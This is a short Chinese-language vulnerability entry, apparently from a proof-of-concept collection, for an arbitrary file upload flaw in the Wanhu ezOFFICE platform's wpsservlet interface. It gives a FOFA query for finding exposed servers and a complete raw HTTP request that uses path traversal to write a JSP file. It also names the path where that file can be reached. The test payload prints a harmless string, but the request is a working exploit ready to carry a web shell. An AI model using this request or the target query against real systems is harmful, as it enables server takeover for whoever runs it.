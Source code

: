## 万户ezoffice wpsservlet任意文件上传漏洞
万户ezOFFICE协同管理平台是一个综合信息基础应用平台分为企业版和政务版。解决方案由五大应用、两个支撑平台组成，分别为知识管理、工作流程、沟通交流、辅助办公、集成解决方案及应用支撑平台、基础支撑平台。万户ezOFFICE协同管理平台wpsservlet接口存在任意文件上传。攻击者可上传恶意脚本文件获取服务器权限。


## fofa
```
app="万户网络-ezOFFICE"
```

## poc
```
POST /defaultroot/wpsservlet?option=saveNewFile&newdocId=apoxkq&dir=../platform/portal/layout/&fileType=.jsp HTTP/1.1
Host: x.x.x.x
User-Agent: Mozilla/5.0 (Windows NT 10.0; WOW64; rv:52.0) Gecko/20100101 Firefox/52.0
Content-Length: 173Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.8,en-US;q=0.5,en;q=0.3Connection: close
Content-Type: multipart/form-data; boundary=ufuadpxathqvxfqnuyuqaozvseiueerpDNT: 1
Upgrade-Insecure-Requests: 1

--ufuadpxathqvxfqnuyuqaozvseiueerp
Content-Disposition: form-data; name="NewFile"; filename="apoxkq.jsp"

<% out.print("sasdfghjkj");%>
--ufuadpxathqvxfqnuyuqaozvseiueerp--
```
文件回显路径为/defaultroot/platform/portal/layout/apoxkq.jsp

